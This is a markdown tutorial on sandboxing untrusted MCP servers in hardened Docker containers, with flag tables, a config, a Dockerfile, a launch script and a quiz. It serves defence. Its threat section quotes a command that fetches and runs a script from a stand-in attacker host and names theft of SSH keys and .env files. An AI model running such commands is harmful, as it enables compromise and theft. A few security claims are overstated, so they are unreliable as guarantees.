

# Sandboxing and Safe Execution Environments in MCP

> "Downloading and running an unvetted community MCP server on bare metal is the modern equivalent of plugging a mystery USB thumb drive you found in a parking lot into your corporate laptop. Always sandbox."

---


### Step 1: Why Do We Need This?

#### The Real Problem

The open MCP ecosystem allows developers to share hundreds of servers via NPM and PyPI. However, running an untrusted MCP server natively on your machine poses grave risks:
- The server process runs with your full OS user permissions: it can read `~/.ssh/id_rsa`, scrape browser session cookies, and steal `.env` files.
- A compromised Python server can run `os.system("curl attacker.com/botnet.sh | bash")` during its startup sequence.
- Malicious dependencies buried deep inside NPM supply chains (`node_modules`) can exfiltrate sensitive files silently.

#### Why Container Sandboxing Solves It

Sandboxing isolates the MCP server inside a **hardened, restricted jail**:
- **Filesystem Isolation:** The server cannot see your host machine's filesystem; only explicitly mounted project directories are accessible.
- **Read-Only Root Filesystem:** Prevents malware from installing persistent backdoors or modifying system libraries.
- **Least-Privilege Execution:** Dropping all Linux kernel capabilities (`--cap-drop=ALL`) and running as an unprivileged non-root user blocks privilege escalation.
- **Zero-Network / Air-Gapped Modes:** Local tools (like code formatters or static linters) can be run with `--network none`, guaranteeing zero data exfiltration.

---

### Step 2: What Is It?

#### Simple Explanation: The Bio-Hazard Glovebox

Think of an untrusted MCP server like a **hazardous chemical sample**:
- You do not handle it with your bare hands on your kitchen table (**Bare Metal**).
- You place it inside a sealed, clear acrylic glovebox with built-in heavy rubber gloves (**The Docker Sandbox**).
- You can manipulate the sample (call tools, read outputs), but toxic vapors cannot escape into the room, and the sample cannot reach your wallet in your pocket.

#### Key Docker Hardening Flags for MCP

| Hardening Flag | Security Purpose | Threat Mitigated |
| :--- | :--- | :--- |
| **`-i` (Interactive)** | Connects host `stdin`/`stdout` directly to container pipes. | Essential for `stdio` transport. |
| **`--rm`** | Deletes container filesystem immediately upon exit. | Prevents forensic residue or persistent malware. |
| **`--read-only`** | Mounts root filesystem as strictly read-only. | Prevents malware binary drops into `/tmp` or `/bin`. |
| **`--cap-drop=ALL`**| Strips all 40+ Linux kernel root capabilities. | Blocks kernel exploits and namespace escapes. |
| **`--user 10001:10001`**| Executes process as an unprivileged non-root user. | Eliminates root privilege escalation risks. |
| **`--memory=512m`**| Hard memory cap enforced by Linux cgroups. | Prevents Denial of Service via memory exhaustion. |
| **`--network none`**| Disables all network interfaces (except loopback). | Guarantees zero data exfiltration for local tools. |

---

### Step 3: Real-World Example

#### Running a Community MCP Server in Claude Desktop

An engineer wants to test an untrusted community-contributed MCP server (`community-sqlite-inspector`):
- Instead of running `npx community-sqlite-inspector` directly on macOS:
- They configure Claude Desktop to launch the server inside a hardened Docker container:
  ```json
  {
    "mcpServers": {
      "sqlite-sandboxed": {
        "command": "docker",
        "args": [
          "run",
          "-i",
          "--rm",
          "--read-only",
          "--cap-drop=ALL",
          "--security-opt=no-new-privileges",
          "--memory=256m",
          "--network", "none",
          "-v", "/Users/alice/projects/test.db:/data/test.db:ro",
          "mcp/sqlite-server:latest",
          "/data/test.db"
        ]
      }
    }
  }
  ```
- **The Result:** Even if the SQLite package contains an intentional backdoor, it cannot access the network, cannot touch Alice's SSH keys, and cannot write to disk.

---

### Step 4: How Does It Work?

```text
Host Operating System (macOS / Linux / Windows)
  │
  │ [Host spawns: docker run -i --read-only --network none ...]
  │
  ▼
┌────────────────────────────────────────────────────────┐
│                   DOCKER SANDBOX                       │
│                                                        │
│  Host stdin  ───────────────────> Container stdin      │
│  Host stdout <─────────────────── Container stdout     │
│                                                        │
│  ┌──────────────────────────────────────────────────┐  │
│  │ Non-Root User (UID 10001)                        │  │
│  │ Capabilities: Dropped ALL                        │  │
│  │ Filesystem: READ-ONLY (Mounts: /workspace:ro)    │  │
│  │ Network: DISABLED (No outbound packets)          │  │
│  │                                                  │  │
│  │            Untrusted MCP Server Process          │  │
│  └──────────────────────────────────────────────────┘  │
└────────────────────────────────────────────────────────┘
```

1. **Host Launch:** Claude Desktop or Cursor launches `docker` with the `-i` flag, attaching local OS pipes to the container's standard input and output.
2. **Namespace Creation:** Docker creates isolated Linux namespaces (PID, Mount, Network, IPC, UTS).
3. **Privilege Dropping:** Linux cgroups restrict CPU/memory, seccomp filters block dangerous syscalls, and user namespaces demote the process to UID 10001.
4. **Transparent Communication:** The MCP host communicates via JSON-RPC over `stdio` exactly as if the binary were running natively on the host.

---

### Step 5: Code Example: Production Multi-Stage Hardened Dockerfile

Here is a complete, production-grade Dockerfile for building a hardened, rootless MCP server container:

```dockerfile
# Dockerfile.hardened-mcp
# Build Stage: Compile dependencies
FROM node:20-alpine AS builder
WORKDIR /app
COPY package*.json tsconfig.json ./
RUN npm ci
COPY src/ ./src/
RUN npm run build && npm prune --production

# Production Hardened Runtime Stage
FROM node:20-alpine AS runner

# 1. Security: Create non-root user and group
RUN addgroup -S -g 10001 mcpgrp && \
    adduser -S -u 10001 -G mcpgrp mcpuser

WORKDIR /app

# 2. Copy compiled artifacts from builder
COPY --from=builder --chown=mcpuser:mcpgrp /app/node_modules ./node_modules
COPY --from=builder --chown=mcpuser:mcpgrp /app/dist ./dist
COPY --from=builder --chown=mcpuser:mcpgrp /app/package.json ./package.json

# 3. Mount temporary writable directory in RAM for scratch work
VOLUME /tmp

# 4. Drop all root permissions
USER 10001:10001

# 5. Disable Node.js telemetry and configure strict runtime
ENV NODE_ENV=production
ENV NODE_OPTIONS="--enable-source-maps --max-old-space-size=256"

# 6. Default execution (runs via stdio)
ENTRYPOINT ["node", "dist/index.js"]
```

#### Companion Hardened Execution Script:
```bash
#!/usr/bin/env bash
# run_sandboxed.sh
# Safely launches MCP container connecting stdio to host

PROJECT_DIR="$(pwd)"

exec docker run -i --rm \
  --name "mcp-sandbox-$RANDOM" \
  --read-only \
  --cap-drop=ALL \
  --security-opt="no-new-privileges:true" \
  --pids-limit=100 \
  --memory=512m \
  --cpus="1.0" \
  --network="none" \
  --tmpfs /tmp:rw,noexec,nosuid,size=64m \
  -v "$PROJECT_DIR:/workspace:ro" \
  hardened-mcp-server:latest
```

---

### Step 6: How Is It Used in Production?

#### Production Patterns & Edge Cases

| Scenario | Production Challenge | Recommended Solution |
| :--- | :--- | :--- |
| **Write Access Requirements** | A code-formatter tool needs to save changes back to disk. | Mount workspace as read-write (`-v $DIR:/workspace:rw`), but isolate files with UID matching (`--user $(id -u):$(id -g)`). |
| **Docker Daemon Overhead** | Spawning Docker containers takes 1–2 seconds, slowing down host startup. | Pre-pull images or use lightweight microVM runners like **Apple Virtualization Framework** or **gVisor (`runsc`)**. |
| **Node.js Needing `/tmp` Writes** | Node crashes because `/tmp` is read-only. | Mount a restricted in-memory tmpfs: `--tmpfs /tmp:rw,noexec,nosuid,size=64m`. |
| **Local Network Access Needed** | Server must reach a local development database (`localhost:5432`). | Use `--network bridge` and pass explicit host IP rather than `--network host` to prevent container from sniffing local ports. |

---

### Step 7: Quick Revision

- Never run unvetted community MCP servers directly on your host machine without sandboxing.
- Use Docker with the **`-i` flag** to bridge local `stdio` seamlessly into the container.
- Apply the **Five Hardening Commandments**: `--read-only`, `--cap-drop=ALL`, `--user nonroot`, `--memory limit`, `--network none`.
- Mount project files with **`:ro` (read-only)** whenever mutations are unnecessary.
- Provide a small in-memory **tmpfs** for runtime frameworks that require temporary cache writes.

---

### Step 8: Final Flow Diagram



---

### Step 9: Quiz

1. Which Docker flag is essential to allow Claude Desktop or Cursor to communicate with an MCP server over standard input/output?
   - A) `-d` (Detached)
   - B) `-i` (Interactive)
   - C) `-p 8080:8080`
   - D) `--restart=always`

2. What does the Docker flag `--cap-drop=ALL` accomplish?
   - A) It deletes all containers
   - B) It removes all Linux kernel root capabilities, preventing container breakout exploits
   - C) It drops all network packets
   - D) It compresses images

3. How do you prevent a sandboxed MCP server from exfiltrating company code to an external command-and-control server?
   - A) By asking it nicely in the system prompt
   - B) By passing the `--network none` flag to completely disable network interfaces
   - C) By using a 4K monitor
   - D) By running in dark mode

4. Why should root filesystem mounts inside the MCP container be marked `--read-only`?
   - A) To save disk drive space
   - B) To prevent rogue or compromised tools from downloading persistent malware or replacing system binaries
   - C) Because Linux does not support writing files
   - D) To speed up Python compilation

*Submit your answers (e.g. 1-B, 2-B, 3-B, 4-B) to verify your score!*
